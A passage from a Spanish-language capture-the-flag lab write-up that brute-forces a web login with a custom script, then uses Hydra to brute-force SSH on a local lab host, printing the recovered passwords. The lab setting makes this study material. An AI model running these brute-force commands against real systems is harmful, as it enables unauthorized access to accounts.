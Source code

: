 ```bash
exit 1
```

Vamos a probar con el usuario `admin` de primeras, el cual va a funcionar por suerte, lo ejecutaremos de esta forma:

```shell
chmod +x forcePass.sh
bash forcePass.sh
```

Info:

```
.................................<RESTO_CODIGO>....................................
[*] Probando contraseña: chocolate
[+] ¡Contraseña encontrada!: chocolate
```

Veremos que ha funcionado, por lo que vamos a probarlas en la web.

Una vez que las probemos veremos esto otro:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-07-12 100912.png" alt=""><figcaption></figcaption></figure>

Vemos que nos esta dando un usuario, por lo que vamos a realizar fuerza bruta de nuevo esta vez por `SSH` directamente con dicho usuario.

### Hydra

```shell
hydra -l balutin -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-12 04:11:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: balutin   password: estrella
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 10 final worker threads did not complete until end.
[ERROR] 10 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-12 04:11:28
```
